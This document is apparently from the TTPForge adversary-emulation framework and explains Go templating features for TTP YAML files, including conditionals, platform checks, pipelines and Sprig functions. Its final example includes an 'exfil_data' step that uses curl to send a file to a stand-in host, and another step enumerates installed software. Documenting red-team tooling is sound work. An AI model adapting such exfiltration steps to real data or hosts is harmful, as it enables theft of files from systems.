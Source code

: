 # Enhancing Your TTPs with Golang Templating Features

The Go templating library is a powerful feature TTPForge utilizes
 to preprocess forges. Developers are able to make use of these
 features to easily add dynamic runtime behavior to their TTPs.
 Templating supports conditional logic, which can be leveraged to
 create sophisticated and context-aware TTPs. This document illustrates
 some key elements and examples of useful template functions that
 can be used within TTPs.

## Actions

Actions are control structures enclosed in double curly braces `{{ }}`.
 TTPForge ttps are pre-processed using Golang's template package to
 expand all argument values prior to execution. TTPForge arguments
 utilize this feature and arguments are made available during
 template rendering as `{{ .Args.arg_name }}` allowing access
 to the `arg_name` field.

### Example Actions

```yaml
# ...
args:
  - name: name
    description: This argument is of default type `string`
    default: Bob
  - name: age
    type: int
    default: 25
steps:
  - name: print_name
    print_str: |
      My name is: {{.Args.name}
  - name: birthday
    print_str: |
      Today, I am {{add .Args.age 1}}
# ...
```

## Conditional Logic

Golang templates support `if`, `else`, and `range` statements
for conditional logic and iteration, allowing users to
control execution flow effectively.

These statements follow the following format:

- `{{ if <conditional> }}`

- `{{ else if <conditional> }}`

- `{{ else <conditional> }}`

And require `{{ end }}` to close the block.

### Example Conditionals

```yaml
# ...
args:
  - name: brew
    description: list installed software via brew
    type: bool
    default: false

  - name: mdfind
    description: list installed software via mdfind
    type: bool
    default: false
steps:
  {{ if .Args.brew }}
  - name: brew
    description: Enumerating software installed using brew.
    inline: brew list
  {{ else if .Args.mdfind }}
  - name: mdfind
    description: Enumerating software installed using mdfind.
    inline: mdfind "kMDItemContentType == 'com.apple.application-bundle'"
  {{ else }}
  - name: invalid
    description: Invalid Option
    print_str: "Invalid Option, Try Again!"
  {{ end }}
# ...
```

## Platform

TTPForge provides a `Platform` struct that contains information
about the current platform being executed on. TTPs can be
created platform agnostically with the use of the following fields:

- `OS`: The operating system of the current platform.

- `Arch`: The architecture of the current platform.

### Example Platform

<!-- markdownlint-disable MD013 -->
```yaml
# ...
requirements:
  platforms:
    - os: linux
    - os: darwin
    - os: windows
steps:
  - name: hello_world
    inline: |
      {{ if eq .Platform.OS "windows" }}
        Write-Host "Hello Windows!"
      {{ else if eq .Platform.OS "linux" }}
        echo "Hello Linux!"
      {{ else if eq .Platform.OS "darwin" }}
        echo "Hello macOS!"
      {{ end }}
  - name: download_ttpforge
    description: Downloads the platform-appropriate release of TTPForge
    fetch_uri: https://github.com/facebookincubator/TTPForge/releases/
    download/v1.2.3/TTPForge_1.2.3_{{ .Platform.OS }}_{{ .Platform.Arch }}.tar.gz
    location: ttpforge.tar.gz
# ...
```
<!-- markdownlint-enable MD013 -->

## Pipelines

Pipelines are a series of commands chained together,
where the output of one command is the input to the next.
They are used within actions, e.g., `{{ .Args.Name | printf "%q" }}`.

> **NOTE:** piped parameters are always provided as the last parameter
> in the list. So in the following example the result of randBytes will
> be the second argument to cat
>
> `{{ randBytes 16 | cat "Random Bytes:" }}`

### Example Pipelines

```yaml
# ...
args:
  - name: input_file
    type: path
steps:
  - name: create_result_dir
    description: Uses the path functions and pipelines to manipulate path arguments
    inline: |
      mkdir {{ osDir .Args.input_file | printf "%q/results" }}
      cd {{ osDir .Args.input_file | printf "%q/results" }}
  - name: generate_rand_file
    description: Generate a random base64-encoded file of a given size
    inline: |
      echo "{{ randBytes 1024 | b64enc }}" > rand.txt
# ...
```

## Sprig Functions

Some useful functions that can be used to improve TTPs include:

- `env`: Retrieves environment variables

- `fail`: Causes the template to fail with an error message during the
preprocessing step

- `randBytes`: Generates random bytes

- `b64enc`: Encodes data to base64

- `urlParse`: Parses a URL string

- `urlJoin`: Joins URL components

Sprig also provides functions for working with strings that
follow file path conventions. These can be useful for working
with file paths in TTPForge:

- `osBase`: Returns the last element of a path

- `osClean`: Cleans up a path by removing unnecessary elements

- `osDir`: Returns the directory part of a path

- `osExt`: Returns the file extension of a path

### Example Functions

```yaml
# ...
args:
  - name: webserver
    default: example.com
steps:
  - name: generate_rand_file
    description: Generate a random base64-encoded file of a given size
    inline: |
      echo "{{ randBytes 1024 | b64enc }}" > rand.txt
  - name: exfil_data
    description: Exfltrate data to target
    inline: |
      curl -F 'data=rand.txt' {{ .Args.webserver }}
# ...
```

## References

**More Information for Reference: [Go Templating Documentation]("https://pkg.go.dev/text/template")**

**More Information for Reference: [Sprig Function Documentation]("https://masterminds.github.io/sprig/")**
